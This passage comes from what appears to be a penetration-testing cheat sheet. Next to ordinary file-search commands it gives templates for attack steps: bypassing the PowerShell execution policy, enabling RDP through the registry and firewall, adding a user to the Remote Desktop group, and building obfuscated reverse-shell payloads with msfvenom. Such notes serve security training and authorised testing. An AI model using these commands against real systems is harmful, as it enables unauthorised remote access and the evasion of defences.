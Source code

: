  - [enum4linux-ng](https://github.com/cddmp/enum4linux-ng)

-----

## Shell

### Linux Shell

- Find File
    - `find  / -iname {file_name} -print 2>/dev/null`
	- `du -a 2>/dev/null | grep {file_name}`
	- `tar cf - $PWD 2>/dev/null | tar tvf - | grep {file_name}`
- Sort File
    - `sort {file} | uniq > {output}`

-----

### Windows Shell

- Bypass execution policy
    - `powershell -ep bypass`
- List all data
	- `dir /a`
- Short name
	- `dir /x` 
- Find File
    - `dir {file_name} /s /p`
- Enable RDP
```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
- Add User To RDP Group
```
net localgroup "Remote Desktop Users" "{USER_NAME}" /add
```

-----

### Tools

#### **msfvenom**

This tool used for spawn a reverse shell of execute file.

* Usage
```
msfvenom {options} LHSOT={IP} LPORT={PORT}
```
* Options
  - `-i {counts}` Encoder counts
  - `-p {payload}` Choose payload
  - `-a {x86/x64}` x86 or x64
  - `-e {encoder}` Obfuscate shellcode
  - `-f {file_type}` Spawn file type
  - `-b "{badchars}"` Remove badchars
  - `-o {output_file}` Output file
  - `EXITFUNC={value}` Process status
    - `thread` Common use
    - `process` Dependency handler
* Payload
  - Windows
    - `windows/meterpreter/reverse_tcp`
    - `windows/shell_reverse_tcp`
  - Linux